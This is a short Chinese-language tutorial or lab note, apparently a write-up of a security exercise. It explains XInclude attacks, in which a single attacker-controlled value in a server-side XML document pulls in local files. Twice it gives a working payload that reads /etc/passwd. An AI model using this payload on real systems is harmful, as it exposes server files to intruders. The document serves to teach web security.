

# 知识点
### XInclude attacks
一些应用程序接收客户端提交的数据，在服务器端将其嵌入到 XML 文档中，然后解析该文档。当客户端提交的数据被放入后端 SOAP 请求中时，就会出现这种情况的一个示例，该请求随后由后端 SOAP 服务处理。<br />在这种情况下，您无法执行经典的 XXE 攻击，因为您无法控制整个 XML 文档，因此无法定义或修改 DOCTYPE 元素。但是，您也许可以改用 XInclude。 XInclude 是 XML 规范的一部分，它允许从子文档构建 XML 文档。您可以在 XML 文档中的任何数据值中放置 XInclude 攻击，因此可以在您仅控制放置在服务器端 XML 文档中的单个数据项的情况下执行攻击。<br />要执行 XInclude 攻击，您需要引用 XInclude 命名空间并提供您希望包含的文件的路径。例如：
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
# 思路
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

